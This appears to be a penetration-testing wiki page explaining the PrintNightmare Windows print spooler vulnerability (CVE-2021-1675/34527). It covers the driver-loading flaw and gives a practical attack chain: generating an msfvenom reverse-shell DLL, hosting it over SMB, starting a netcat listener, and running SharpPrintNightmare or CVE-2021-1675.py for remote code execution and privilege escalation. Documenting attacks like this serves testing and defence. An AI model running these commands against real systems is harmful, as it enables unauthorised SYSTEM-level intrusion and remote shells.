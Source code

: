 ```yaml
---
description: CVE-2021-1675 & CVE-2021-34527
---
```


# PrintNightmare

## Theory

### The print spooler

The Print Spooler is a Microsoft built-in service that manages printing jobs. It is enabled by default and runs within the `SYSTEM` context.

3 RPC protocols are registered by the spooler:

* **MS-RPRN:** Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server synchronously.
* **MS-PAR:** Microsoft’s Print System Asynchronous Remote Protocol. It has the same functionalities as MS-RPRN, but works asynchronously.
* **MS-PAN:** Microsoft’s Print System Asynchronous Notification Protocol. It is used to receive print status notifications from a print server and to send server-requested responses to those notifications back to the server.

### PrintNightmare

"PrintNightmare" refers to an RCE (Remote Command Execution) vulnerability. If the vulnerable machine is configured to reject remote connection, this vulnerability could still be exploited in an LPE (Local Privilege Escalation) context.

In a detailed blogpost ([here](https://cyberwatch.fr/actualite/cve-2021-34527-comment-identifier-et-neutraliser-la-vulnerabilite-printnightmare/)), Cyberwatch describes that the vulnerability lies in the functions allowing remote driver installation by users, `RpcAddPrinterDriverEx` and `RpcAddPrinterDriver`:

1. The attacker stores the driver DLL file on a SMB share reachable from the server.
2. The client creates a [`DRIVER_INFO_2`](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-rprn/39bbfc30-8768-4cd4-9930-434857e2c2a2) object containing the path to the attacker's DLL and passes it into the DRIVER\_CONTAINER object.
3. The client calls [`RpcAddPrinterDriverEx`](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b) with the `DRIVER_CONTAINER` to load the attacker's DLL into the server's dynamic library and with multiple bit values within the `dwFileCopyFlags` \*\*\*\* in order to bypass the `SeLoadDriverPrivilege` \*\*\*\* privilege verification by the server.
4. The attacker's DLL is executed on the server within `SYSTEM` context.

### Constraints

As [@StanHacked](https://twitter.com/StanHacked/) stated on Twitter, there are some constraints depending on the protocol used for the attack.

#### MS-RPRN conditional tree

<div>

<figure><img src="../../../.gitbook/assets/PrintNightmare_MS-RPRN.jpeg" alt=""><figcaption></figcaption></figure>

 

<figure><img src="../../../.gitbook/assets/E5ShO9wXwAAPAC9.jpeg" alt=""><figcaption></figcaption></figure>

</div>

#### MS-PAR conditional tree

<figure><img src="../../../.gitbook/assets/E5ikrvQWYAEXzAq.jpeg" alt=""><figcaption></figcaption></figure>

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From Unix-like systems, the attack can be conducted as follows

1. Check if the target's RPC pipes are available: Impacket's [rpcdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py)
2. Generate a DLL payload: [msfvenom](https://github.com/rapid7/metasploit-framework/blob/master/msfvenom)
3. Host an SMB server from which the DLL can be fetched: Impacket's [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
4. Exploit PrintNightmare: CVE-2021-1675.py ([MS-RPRN abuse](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare), [MS-PAR abuse](https://github.com/cube0x0/CVE-2021-1675/blob/main/SharpPrintNightmare/CVE-2021-1675.py))
5. Profit from the DLL being executed by the target

{% code overflow="wrap" %}
```bash
# Check open pipes
rpcdump.py @192.168.1.16 | egrep 'MS-RPRN|MS-PAR'

# Create a DLL payload (reverse shell in this example)
msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -o /workspace/smb/remote.dll

# Host a SMB share 
smbserver.py -smb2support "WHATEVERNAME" /workspace/smb/

# Start the listener (for the reverse shell)
nc -lvnp $LOCAL_PORT

# Run the exploit
CVE-2021-1675.py $DOMAIN/$USER:$PASSWORD@$TARGET_IP '\\$LOCAL_IP\$SHARE\remote.dll'
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the attack can be conducted in an LPE or RCE context with the following PoC: [https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare).

{% hint style="warning" %}
_At the time of writing, October 7th 2022, the Windows abuse technique has not been tested by THR's authors._
{% endhint %}

{% code overflow="wrap" %}
```bash
#LPE
C:\SharpPrintNightmare.exe C:\addCube.dll

#RCE using existing context
SharpPrintNightmare.exe '\\$LOCAL_IP\smb\addCube.dll' '\\$TARGET_IP'

#RCE using runas /netonly
SharpPrintNightmare.exe '\\$LOCAL_IP\smb\addCube.dll' '\\$TARGET_IP' $DOMAIN $USER $PASSWORD
```
{% endcode %}
{% endtab %}
{% endtabs %}

## References

{% embed url="https://cyberwatch.fr/actualite/cve-2021-34527-comment-identifier-et-neutraliser-la-vulnerabilite-printnightmare/" %}

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}

